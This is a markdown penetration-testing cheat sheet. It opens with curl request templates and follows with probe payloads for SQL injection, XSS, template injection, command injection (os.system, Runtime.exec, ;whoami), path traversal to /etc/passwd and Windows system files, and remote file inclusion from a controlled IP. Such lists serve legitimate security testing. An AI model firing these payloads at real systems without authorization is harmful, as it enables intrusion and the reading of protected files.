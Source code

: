 # APIs and Fields

## Simulating Requests

#### GET

```
curl <url>
```

#### HEAD

```
curl -I <url>
```

#### GET - Params

```
curl <url>?field=value&field2=value2
```

#### GET - Follow Redirect

```
curl -L <url>
```

#### GET - Custom Headers

```
curl <url> -H "header1: value" -H "header2: value"
```

#### GET - Custom Cookies

```
curl -b "name1=value1; name2=value2" <url>
```

#### POST - Form Data

```
curl -X POST <url>
   -H "Content-Type: application/x-www-form-urlencoded" 
   -d "key1=value1&key2=value2" 
```

#### POST - JSON

```
curl -X POST <url>
    -H 'Content-Type: application/json'
    -d '{"field1":"value1","field2":"value2"}'
```

#### POST - Send File

```
curl -X POST <url> -d @<path to file>
```

#### POST - Base Auth

```
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>" 
```

## Testing parameters

#### SQL Injection

```
'"`) or 'a' = 1;    
'"` or 1 = 1; 

sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS

```
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>

`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection

```
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

#### RCE

```
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");

echo exec("<cmd>");
echo `<cmd>`;

<!--#exec cmd="<cmd>" --> 

whoami
$(whoami)
;whoami
||whoami
&&whoami
```

#### Local File Inclusion

```
../../../../../../../../../etc/passwd
..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\boot.ini
```

#### Remote File Inclusion

```
http://www.google.com
http://<controlled ip>
```

